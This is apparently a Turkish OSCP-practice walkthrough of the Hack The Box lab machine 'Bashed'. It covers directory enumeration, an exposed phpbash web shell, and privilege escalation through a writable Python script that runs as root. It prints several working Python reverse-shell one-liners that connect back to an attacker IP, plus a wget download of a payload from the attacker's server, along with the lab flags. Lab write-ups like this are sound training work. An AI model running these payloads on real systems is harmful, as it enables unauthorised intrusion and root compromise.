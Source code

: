 # OSCP_Preparation

Makine: Bashed

 Nmap'i -A parametresi ile birlikte çalıştırıyorum. 

 -A parametresi NMAP’te en sık kullanılan parametrelerin bazılarını otamatik olarak kullanılmış olur.
Bunlar ise İşletim Sistemi Tespiti, Versiyon Tespiti, Script taraması ve Traceroute’tur. 

```console
──(naoumine㉿darker)-[~]
└─$ gobuster dir -u http://10.129.90.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                               
```

![image](./assets/1.PNG)


İlgili URL'e gidelim ve biraz kurcalayalım.

![image](./assets/2.PNG)

Sayfa içindeki link: https://github.com/Arrexel/phpbash

http://10.129.90.18/dev/phpbash.php dizinine gittiğimizde komut çalıştırabildiğimizi görüyoruz.

![image](./assets/2.PNG)

Burada kullanıcının yetkilerine bakıyoruz ve makina içerisinde python olduğunu doğruluyoruz. Şimdi reverse shell çalıştırmayı deneyelim.

Etkileşimsiz kabuktan etkileşimli kabuğa geçebilmek için çeşitli yöntemler bulunmaktadır. Bu yöntemlerden birisi de Python paketi kurulu olan hedef sistemde pty (Pseudo-terminal Utilities) modülünün spawn metodunu kullanmaktadır. Böylece aynı yetkiler ile etkileşimli komut satırı elde edilebilir.

![image](./assets/3.PNG)

ilk başta www.data kullanıcısı ile dosya yetkilerine bakmaya çalıştık ancak görüntüleyemedik bu yüzden scriptmanager kullanıcısı ile görüntülüyoruz.

scriptmanager'a ait bir python scripts'inin bulunduğu görüldü!

![image](./assets/4.PNG)

scriptmanager kullanıcısının text.py üzerinde yetkisi var ama garip olan text.txt neden bir root yetkisinde? Tahminimce test.py kodu kendi isteğimize göre düzenleyip işletirsek bu sonuç test.txt içine basılacak. Sonuç olarak root yetkisinde olan bir dosyaya ulaşmamızın bir anahtarı olabilir.

![image](./assets/5.PNG)

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet linkindeki dosyayı indirip düzenledik.

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Localimizde dinlemeye aldık ve hedef makine de hazırladığımız shell'i çalıştırdık.

```console
nc -nvlp 1234
```
![image](./assets/6.PNG)

User Flag: 2c281f318555dbc1b856957c7147bfc1

Scriptmanager kullanıcısı olarak devam ediyorum.

```console
sudo -i -u scriptmanager
```

Aşağıdaki şekilde betiği düzenledim.
```console
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

test1.py olarak kendi localimde kaydedip sunucu olarak 8000 portundan ayağa  kaldırıyorum. 

```console
python -m SimpleHTTPServer    
```

Hedef makinaya dosyayı indirdim.

```console
wget http://10.10.14.18:8000/test1.py
```

Reverse shell alabilecek miyiz dinlemeye başlayalım.

```console
nc -nvlp 8888
```

Çalıştıralım!

```console
python -c test1.py
```


![image](./assets/7.PNG)


Root Flag: cc4f0afe3a1026d402ba10329674a8e2

Ek Yöntem:

echo "import socket, subprocess, os; f=open("test.txt","w"); f.write("privesc"); f.close; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.18",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);" > test.py